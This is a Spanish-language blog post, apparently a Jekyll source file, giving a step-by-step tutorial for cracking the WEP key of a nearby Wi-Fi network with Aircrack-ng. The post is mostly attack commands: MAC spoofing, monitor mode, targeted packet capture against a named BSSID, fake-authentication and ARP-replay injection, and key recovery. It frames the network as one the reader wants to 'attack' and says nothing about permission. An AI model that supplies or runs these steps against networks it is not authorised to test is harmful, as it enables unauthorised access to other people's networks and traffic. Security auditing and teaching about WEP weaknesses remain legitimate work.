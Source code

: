 ```yaml
---
layout: post
title: "Obtener clave WEP WIFI con Aircrack"
description: "Como descifrar claves WEP WIFI con la suite Aircrack"
redirect_from: /articulo/obtener-clave-wep-wifi-con-aircrack/
locale: es
---
```


El primer paso es <a href="http://www.aircrack-ng.org/doku.php?id=downloads&DokuWiki=d66620079141170d5df90612b298008d">descargar</a> e instalar la suite Aircrack-ng.

Para descifrar la clave WEP de una red wifi debemos seguir una serie de pasos:

Cambiamos la dirección hardware (MAC) de nuestro equipo:

{% highlight bash %}
# ifconfig wlan0 down
# ifconfig wlan0 hw ether 00:11:22:33:44:55
{% endhighlight %}

Comenzamos monitorización de paquetes en la interfaz wifi, para ello utilizamos la herramienta airmon-ng:


    # airmon-ng start wlan0

Descubrimos todas las redes wifi, de los datos que saldrán debemos fijarnos en la red que queremos atacar, probablemente aquella que tenga una mejor señal:


    # airodump-ng wlan0

Cuando ejecutemos el comando anterior, aparecerá una pantalla parecida a la siguiente:
<img src="/uploads/images/full/bbdd5069a2c63a3aabf9b2ad26df7d528c53c542.png" alt="" />
Este paso solo sirve para averiguar todo lo que necesitamos saber para atacar la red que nos interesa (normalmente la más cercana, la que tiene un menor potencia, columna PWR). Solo nos fijaremos en los campos que hemos marcado como azulados, el **BSSID** (dirección MAC del punto de acceso atacado), el **PWR** (poder de la señal a menor valor mejor), el CH (canal), **ENC** y **CIPHER** (el tipo de seguridad, WEP para este tutorial)  y el **ESSID** (nombre del punto de acceso).

Una vez obtenidos los datos, podemos empezar a capturar paquetes de la red que nos interese atacar, en nuestro caso hemos seleccionado "WLAN_DF", cuyo canal es el **2** y cuyo **BSSID** es 00:23:F8:A0:C4:A2:


    # airodump-ng -c 2 -w paquetes --bssid 00:23:F8:A0:C4:A2 wlan0

En este punto solo queda esperar a recolectar de unos 20000 a 40000 paquetes, dependerá del uso de la red.
### Opcional, inyección de paquetes
Solo si nuestro driver para la tarjeta de red admite inyección de paquetes, podemos aumentar de forma considerable la velocidad de recolección de paquetes utilizando la herramienta aireplay-ng de la suite de Aircrack, alguno de los métodos son los siguientes:
{% highlight bash %}
# aireplay-ng -1 0 -a 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 -e WLAN_DF wlan0
# aireplay-ng -3 -b 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 wlan0
{% endhighlight %}

### Obtener la clave de red
Una vez obtenidos paquetes suficientes (de 20000 a 40000 normalmente) utilizaremos aircrack-ng para descifrar la contraseña.


     # aircrack-ng paquetes-01.cap
